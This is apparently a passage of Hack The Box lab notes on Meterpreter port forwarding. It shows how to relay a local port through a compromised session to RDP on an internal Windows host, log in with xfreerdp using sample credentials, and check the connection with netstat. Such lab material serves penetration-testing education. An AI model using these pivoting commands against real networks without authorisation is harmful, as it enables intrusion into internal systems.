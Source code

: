 **Portfwd options**

Meterpreter Tunneling & Port Forwarding

```shell-session
meterpreter > help portfwd

Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h        Help banner.
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
    -R        Indicates a reverse port forward.
```

**Creating Local TCP Relay**

Meterpreter Tunneling & Port Forwarding

```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

The above command requests the Meterpreter session to start a listener on our attack host's local port (`-l`) `3300` and forward all the packets to the remote (`-r`) Windows server `172.16.5.19` on `3389` port (`-p`) via our Meterpreter session. Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.

**Connecting to Windows Target through localhost**

Meterpreter Tunneling & Port Forwarding

```shell-session
AIceBear@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

**Netstat Output**

We can use Netstat to view information about the session we recently established. From a defensive perspective, we may benefit from using Netstat if we suspect a host has been compromised. This allows us to view any sessions a host has established.

Meterpreter Tunneling & Port Forwarding

```shell-session
AIceBear@htb[/htb]$ netstat -antp

tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
```

***
